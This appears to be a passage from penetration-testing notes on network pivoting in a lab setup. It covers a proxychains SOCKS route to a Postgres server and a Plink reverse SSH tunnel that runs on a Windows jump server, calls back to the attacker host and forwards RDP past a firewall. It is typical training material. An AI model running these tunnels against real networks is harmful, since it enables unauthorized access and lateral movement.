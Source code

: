 ##### LHOST

```console
$ ss -tulpn
$ tail /etc/proxychains4.conf
socks5 127.0.0.1 9998
$ proxychains psql -h 10.10.100.20 -U postgres
```

### Plink

| System              | IP address     |
| ------------------- | -------------- |
| LHOST               | 192.168.50.10  |
| APPLICATION SERVER  | 192.168.100.10 |
| WINDOWS JUMP SERVER | 192.168.100.20 |
| DATABASE SERVER     | 10.10.100.20   |
| WINDOWS HOST        | 172.16.50.10   |

- LHOST < FIREWALL < WINDOWS JUMP SERVER

##### LHOST

```console
$ find / -name plink.exe 2>/dev/null
/usr/share/windows-resources/binaries/plink.exe
```

##### WINDOWS JUMP SERVER

```cmd
C:\> plink.exe -ssh -l <USERNAME> -pw <PASSWORD> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.50.10
```

##### LHOST

```console
$ ss -tulpn
$ xfreerdp3 /u:<USERNAME> /p:<PASSWORD> /v:127.0.0.1:9833
```

### Netsh

| System              | IP address     |
| ------------------- | -------------- |
| LHOST               | 192.168.50.10  |
| APPLICATION SERVER  | 192.168.100.10 |
| WINDOWS JUMP SERVER | 192.168.100.20 |
| DATABASE SERVER     | 10.10.100.20   |
| WINDOWS HOST        | 172.16.50.10   |
